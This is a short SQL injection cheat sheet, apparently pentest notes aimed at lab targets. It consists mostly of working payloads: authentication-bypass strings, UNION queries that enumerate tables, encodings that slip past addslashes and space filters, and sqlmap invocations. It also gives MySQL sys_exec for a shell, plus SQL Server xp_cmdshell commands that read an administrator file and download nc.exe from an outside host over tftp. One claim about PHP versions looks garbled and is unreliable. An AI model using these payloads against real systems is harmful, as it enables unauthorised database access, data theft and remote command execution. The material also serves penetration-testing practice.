 # SQLi : SQL Injection


````sql
SELECT * FROM user WHERE login='[USER]' and password='[PASSWORD]';
````
- Close the string : ' "
- Widen the request : or 1=1
- Add inputs with UNION
- Comment end of request : -- #

````
http://12.0.0.11/sqli/example1.php?name=root' or '1'='1
http://12.0.0.11/sqli/example1.php?name=root' or '1'=1
http://12.0.0.11/sqli/example1.php?name=root’ or 1=1-- -
http://12.0.0.11/sqli/example1.php?name=root%27%20or%20%271%27=%271
````

## SqlMap

Url: http://f4l13n5n0w.github.io/blog/2015/05/22/pentesterlab-web-for-pentester-sql-injection/
````
http://10.10.10.129/sqli/example1.php?name=root' or 1=1-- -

sqlmap -u "http://10.10.10.129/sqli/example1.php?name=root" --dbs --banner
````

## Avoid simple filters
### Limit returned results
````
a' or 1=1 LIMIT 1 #
````

Replace Space by Tab %09 
````
username=admin%27%09or%091%3D1%09--%09&password=admin
````

Bypass php function ‘addslashes’ used to insert strings in mysql requests
Use Chinese charset %bf%27  to set a ' in proxy
````
username=a%bf%27+or+1=1+#&password=b
````

Filter sur AND ou OR, les remplacer par
````
AND :   &&   %26%26 
OR  :  || 
````
Filtrage sur les Espaces -> newlines %A0, utiliser des \t TAB %90 , utiliser /**/
````
http://12.0.0.11/sqli/example2.php?name=root%27%A0or%A01=1--%A0-
````
Filter with : mysql_real_escape_string
````
$iId = mysql_real_escape_string("1 OR 1=1");
http://12.0.0.11/sqli/example4.php?id=2 OR  1=1
````

### Note: PHP <=5.2.6
SQL Injection won't work on PHP >= v5.2.6.
Unless php tuned for
````
<IfModule mod_php5.c>
    magic_quotes_gpc = Off
    allow_url_fopen = On
    allow_url_include = On
</IfModule>
````



### Use Union
````
http://ptl-544ad5ad-8438986c.libcurl.so/cat.php?id=1 or 1=1 UNION SELECT 1
http://ptl-544ad5ad-8438986c.libcurl.so/cat.php?id=1 or 1=1 UNION SELECT 1,2
http://ptl-544ad5ad-8438986c.libcurl.so/cat.php?id=1 or 1=1 UNION SELECT 1,2,3,4
````
Identify number of fields in select: here 1,2,3,4 doesn’t generate error


### Get table names

```
name=a&pass=admin' or 1=1 UNION SELECT 1,2
name=a&pass=admin' or 1=1 UNION SELECT table_name,table_name FROM information_schema.tables; -- -  
```


## MySql

````
select sys_exec('/bin/sh');
after bash access, “bash –p” or “sudo su”
````

##  SQL Server 

Connect to:
````
sqsh -S hostname -Uusername -Ppassword
use database;
go
select * from tblTable;
go
````

If xp_cmdshell is enabled
````
exec master..xp_cmdshell 'type c:\"Documents and Settings"\Administrator\Desktop\proof.txt'
go
EXEC master..xp_cmdshell 'tftp -i 192.168.168.168 GET nc.exe'
go
````



## SQLMap


Copy Burp request : search-test.txt
```
./sqlmap.py -r search-test.txt -p tfUPass

```